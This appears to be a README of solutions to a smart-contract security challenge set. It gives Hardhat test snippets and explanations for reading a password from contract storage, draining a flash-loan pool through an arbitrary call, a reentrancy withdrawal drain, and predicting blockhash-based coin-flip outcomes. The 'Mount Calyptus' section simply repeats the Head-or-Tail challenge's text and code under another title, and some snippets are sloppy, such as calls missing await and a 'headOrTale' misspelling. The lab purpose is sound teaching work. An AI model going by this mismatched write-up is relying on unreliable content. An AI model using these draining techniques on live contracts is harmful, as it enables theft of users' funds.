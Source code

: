 # Smart Contract Security Challenge
---
## Challenge 1

### No Privacy

To exploit the AlicesLock contract, you can follow these steps in the no-privacy.js test file:

#### *Steps to Exploit*

- Access Contract Storage: The password is stored in the contract's storage, so you can read it directly.

- Unlock the Contract: Use the unlock function with the password obtained from storage.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
it("Exploit", async function () {
    // Get the storage slot for the password
    const passwordSlot = await ethers.provider.getStorageAt(this.lock.address, 1);

    // Unlock the contract using the password from storage
    await this.lock.connect(bob).unlock(passwordSlot);
});
```

#### *Explanation*
- `ethers.provider.getStorageAt(this.lock.address, 1)`: This reads the password from the second storage slot (index 1) of the AlicesLock contract.

- `this.lock.connect(bob).unlock(passwordSlot)`: Bob uses the retrieved password to call the unlock function.

---

## Challenge 2

### Do Not Trust

To exploit the  Do Trust Lender pool, you can follow these steps in the do-not-trust.js test file:

#### *Steps to Exploit*

- `DoTrustLender.sol` contract implements a flash loan mechanism that allows borrowers to execute arbitrary functions after borrowing tokens. It inherits from `ReentrancyGuard` to prevent reentrancy attacks on its functions.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const DoNotTrustBobFactory = await ethers.getContractFactory(
      "DoNotTrustBob",
      alice
    );
    this.exploit = await DoNotTrustBobFactory.deploy();
    await this.exploit
      .connect(bob)
      .attack(this.pool.address, this.token.address);
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the `CalyptusToken` and `DoTrustLender` contracts. Transfers 1 million CPT tokens to the lending pool.

- **Exploit**: Bob deploys a contract `DoNotTrustBob` that exploits the `flashLoan` function of `DoTrustLender`. The attack involves borrowing all tokens from the pool and executing a function that transfers them to Bob's account.

---

## Challenge 3

### Re-enter

To exploit the  simple lending pool that allows its users to deposit ETH, you can follow these steps in the reenter.js test file:

#### *Steps to Exploit*

- The smart contract `Reenter.sol` allows users to deposit ETH, withdraw ETH, and execute flash loans. It has a reentrancy vulnerability in the `withdraw` function.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE */
    const bobFactory = await ethers.getContractFactory("ReentersBob", alice);
    this.bobsContract = await bobFactory.deploy(this.pool.address);
    this.bobsContract.connect(bob).attack();
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the ReenterPool contract with an initial balance of 1000 ETH.

- **Exploit**: Bob deploys a contract ReentersBob that utilizes a reentrancy attack via the withdraw function of ReenterPool. The attack allows Bob's contract to repeatedly withdraw ETH from Alice's pool before updating the balance.

---

## Challenge 4

### Head or Tail

The HeadOrTail contract has a vulnerability where the randomness is derived from global variables, making it predictable. you can follow these steps in the head-or-tails.js test file:

#### *Steps to Exploit*

- The `HeadOrTail.sol` contract implements a coin flip game where the outcome is determined based on the previous block's hash. This method of generating randomness is predictable and can be exploited.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const Attacker = await ethers.getContractFactory("BobsGuess", bob);

    this.attacker = await Attacker.deploy();
    for (let i = 0; i < 5; i++) {
      this.attacker.connect(bob).cheat(this.headOrTale.address);
    }
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the HeadOrTail contract. Ensures the initial wins count is 0.

- **Exploit**: Bob deploys a contract that predicts the outcome of the coin flip by calculating the block hash and determining the result before calling the flip function.

---

## Challenge 5

### Mount Calyptus

The HeadOrTail contract has a vulnerability where the randomness is derived from global variables, making it predictable. you can follow these steps in the head-or-tails.js test file:

#### *Steps to Exploit*

- The `HeadOrTail.sol` contract implements a coin flip game where the outcome is determined based on the previous block's hash. This method of generating randomness is predictable and can be exploited.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const Attacker = await ethers.getContractFactory("BobsGuess", bob);

    this.attacker = await Attacker.deploy();
    for (let i = 0; i < 5; i++) {
      this.attacker.connect(bob).cheat(this.headOrTale.address);
    }
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the HeadOrTail contract. Ensures the initial wins count is 0.

- **Exploit**: Bob deploys a contract that predicts the outcome of the coin flip by calculating the block hash and determining the result before calling the flip function.

